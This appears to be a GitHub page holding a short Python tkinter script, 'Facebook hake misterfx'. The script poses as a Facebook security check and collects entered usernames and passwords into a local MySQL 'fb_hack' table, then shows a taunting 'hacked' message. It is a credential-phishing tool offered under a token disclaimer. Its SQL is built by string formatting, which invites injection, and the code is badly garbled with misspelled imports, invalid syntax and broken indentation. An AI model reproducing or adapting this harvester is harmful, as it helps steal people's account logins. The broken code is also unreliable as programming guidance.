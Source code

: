 # Mister-fx
Dont use to harm any one
mport pymysl
import random
from tkinter import * 
from tkinter import messangerbox
import tkinter.messagebox

root=Tk()
root.title("Facebook hake misterfx")
root.geometry("700×400")

def login():
       u=usn.get()
       p=psw.get()
       usn.set("")
       psw.set("")
       db=pymsql.connect("localhost","root","","fb_hack")
        cr=db.cursor()
        cr.execute("INSERT INTO 'fb_hack' ('username'.'password') VALUES ('%s','%s')"%(u,p))
        db.commit()
        data=cr.fetchall()
   
   if data !=():
                    messangerbox.showerro("!","INVALID")
   els :
          r = random.randint(1,101)
          messangerbox.showinfo("WARNING"YOUR ACCOUNT HAS BEEN HAKED BY MISTER FX "%s TIMES"%(r))
usn=StringVar()
psw+StringVar()

title = label(root,text="How Secure is faceBook ?? ',bg="blue",fg="white",font=("arial",15),bd=20).grad(row=0,column=0
lb1 = Label(root,text="username : ",font=(",15),grid(row=1,column=0)
lb2 = Label(root.text="username : ",font=(arial",15),bd=10).grid(row=2,column=0)

us=Entry(root,font=("arial",15),bd=5,textvariable=usn) .grid(row=1,column=1)
pas=enter(root,font=("arial",15),bd=5,show="*",textvariable=psw) .grid(row=2,column=2)

lb13 =Label(root).grid(row=2)

btn=Button(root,text="Check Now",font=("arial",15),bd=3,command=login).graid(row=3,column=1)
root.mainloop()
